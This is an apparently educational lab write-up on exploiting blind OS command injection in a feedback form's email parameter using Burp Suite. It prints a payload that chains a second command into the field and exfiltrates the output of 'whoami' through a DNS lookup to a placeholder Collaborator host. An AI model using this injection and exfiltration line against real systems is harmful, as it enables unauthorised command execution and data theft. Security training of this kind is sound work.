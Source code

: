 ### Blind OS command injection with out-of-band data exfiltration : PRACTITIONER

---


> Heading to the feedback submission page with BurpSuite PROXY HTTP History running.

![](./screenshots/submit.png)

> After submitting feedback, open the sent `POST` request and send it to repeater for further analysis.

![](./screenshots/post-1.png)

> We need to trigger an out of band interaction using one of these parameters.
> This will be done by performing a dns lookup of the burp collaborator domain, with a subdomain containing the data we need, `whoami`.
> Inserting this payload into all the parameters one by one.

```
mins||nslookup+`whoami`.<BURP-COLLAB-PAYLOAD>||
```
> The <BURP_COLLAB_PAYLOAD> can be added by right clicking and then choosing add the burp collaborator payload.

> Using the `email` parameter is the only one that works.
> Sending the request, we get no response, but if we check the collaborator, we see that there was a post request sent with a DNS lookup.

![](./screenshots/colab-1.png)

> We see that the command was executed and the preprended to the domain of the collaborator.
> Since we control this server, we see any domain lookups for it, confirming that the email parameter is vulnerable to command injection that is blind and detectable via OAST techniques.

```
peter-h8mnrR
```

---
